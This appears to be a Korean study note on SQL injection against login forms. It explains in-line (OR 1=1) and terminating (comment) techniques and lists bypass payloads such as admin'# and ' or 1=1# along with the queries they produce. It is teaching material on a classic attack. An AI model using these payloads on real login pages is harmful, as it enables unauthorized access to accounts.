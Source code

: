     ```SQL
    select * from member where id='' or 1=1 or '1'='' and 
    pw='ENC_DATA';
    ```

## 로그인에 사용될 것으로 예측되는 Query 문

```SQL
select * from member where id='' and pw='';
```

- 주석
    - MySql : #, - - (앞뒤로 공백 필요)
    - Oracle : - -

  

#### In-line Query와 Terminating Query
- In-line Query : or 연산자를 이용해서 뒷부분이 거짓이더라도 전체 조건을 참으로 만듦
- Terminating Query : 마지막을 주석으로 마무리 함으로써 뒷부분에 추가 조건을 무효화함

1. 아이디를 알고 있는 경우

- In-line Query
    
    id = admin’ or ‘1’=’1
    
    ```SQL
    select * from member where id='admin' or '1'='1' and pw='';
    ```
    

- Terminating Query
    
    id = admin’#
    
    ```SQL
    select * from member where id='admin'#' and pw=';
    ```

1. 아이디를 모를 경우

- In-line Query
    
    id = ‘ or 1=1 or ‘1’=’1
    
    ```SQL
    select * from member where id='' or 1=1 or '1'='1' and pw='';
    ```
    

- Terminating Query
    
    id = ‘ or 1=1#
    
    ```SQL
    select * from member where id='' or 1=1#' and pw=';
    ```
    

아이디를 모를 경우에는 어떤 계정으로 로그인 될까
